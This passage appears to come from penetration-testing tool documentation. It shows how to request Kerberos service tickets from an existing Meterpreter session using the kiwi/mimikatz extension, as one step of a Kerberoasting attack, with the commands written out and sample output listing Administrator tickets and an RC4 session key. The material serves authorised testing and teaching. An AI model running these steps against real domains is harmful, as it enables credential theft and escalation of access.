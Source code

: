 Great, we now have a couple SPNs to move forward with.

### Request Service Tickets - with kiwi

If you have a running Meterpreter session you can request a Service Ticket using the kiwi extension and one of the SPNs
found above:

```
meterpreter > load kiwi
Loading extension kiwi...

  .#####.   mimikatz 2.2.0 20191125 (x64/windows)
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'        Vincent LE TOUX            ( vincent.letoux@gmail.com )
  '#####'         > http://pingcastle.com / http://mysmartlogon.com  ***/

Success.
meterpreter > kiwi_cmd kerberos::ask /target:https/TSTWLPT1000000
Asking for: https/TSTWLPT1000000
   * Ticket Encryption Type & kvno not representative at screen

	   Start/End/MaxRenew: 12/16/2022 4:58:34 PM ; 12/17/2022 1:35:41 AM ; 12/23/2022 3:35:41 PM
	   Service Name (02) : https ; TSTWLPT1000000 ; @ EXAMPLE.COM
	   Target Name  (02) : https ; TSTWLPT1000000 ; @ EXAMPLE.COM
	   Client Name  (01) : Administrator ; @ EXAMPLE.COM
	   Flags 40a10000    : name_canonicalize ; pre_authent ; renewable ; forwardable ;
	   Session Key       : 0x00000017 - rc4_hmac_nt
	     07137dd7d5b801ef8b05c73380b18701
	   Ticket            : 0x00000017 - rc4_hmac_nt       ; kvno = 0	[...]

```

Tickets in the current session can be viewed like so:

```

meterpreter > kerberos_ticket_list
[+] Kerberos tickets found in the current session.
[00000000] - 0x00000012 - aes256_hmac
   Start/End/MaxRenew: 12/16/2022 3:35:41 PM ; 12/17/2022 1:35:41 AM ; 12/23/2022 3:35:41 PM
   Server Name       : krbtgt/EXAMPLE.COM @ EXAMPLE.COM
   Client Name       : Administrator @ EXAMPLE.COM
   Flags 40e10000    : name_canonicalize ; pre_authent ; initial ; renewable ; forwardable ;

[00000001] - 0x00000017 - rc4_hmac_nt
   Start/End/MaxRenew: 12/16/2022 4:58:34 PM ; 12/17/2022 1:35:41 AM ; 12/23/2022 3:35:41 PM
   Server Name       : https/TSTWLPT1000000 @ EXAMPLE.COM
   Client Name       : Administrator @ EXAMPLE.COM
   Flags 40a10000    : name_canonicalize ; pre_authent ; renewable ; forwardable ;
```
